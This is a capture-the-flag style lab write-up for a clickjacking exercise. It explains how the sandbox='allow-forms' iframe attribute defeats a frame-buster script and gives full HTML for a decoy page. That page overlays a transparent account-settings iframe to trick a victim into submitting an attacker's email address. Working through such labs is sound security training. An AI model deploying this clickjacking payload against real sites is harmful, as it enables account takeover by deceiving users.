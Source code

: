 # Lab: Clickjacking with a frame buster script
## Description
By adding adding `sandbox="allow-forms"` to the iframe the frame buster script can be bypassed:
```js
if(top != self) {
	window.addEventListener("DOMContentLoaded", function() {
		document.body.innerHTML = 'This page cannot be framed';
	}, false);
}
```

## Solution
```html
<html>
<head>

<style>
    #target_website {
      position:relative;
      width:528px;
      height:600px;
      opacity:0.60001;
	  margin-bottom: 200px;
      z-index:2;
      }
    #decoy_website {
      position:absolute;
	  top:390px;
	  left:45px;
      width:300px;
      height:400px;
      z-index:1;
      }
  </style>
</head>
<body>

	<div id="decoy_website">
		<p style="height: 25px;">Enter your email below to unsubscribe...</p>
		<input type="email" name="email" value="" style="height:30; width: 400px;">
		<br /><br /><br />
		<button style="width: 140px; height:25px;">Click here!</button>
	</div>
	<iframe id="target_website" src="https://target.web-security-academy.net/my-account?email=hacker@hack.com" sandbox="allow-forms"></iframe>
	
</body>
</html>
```
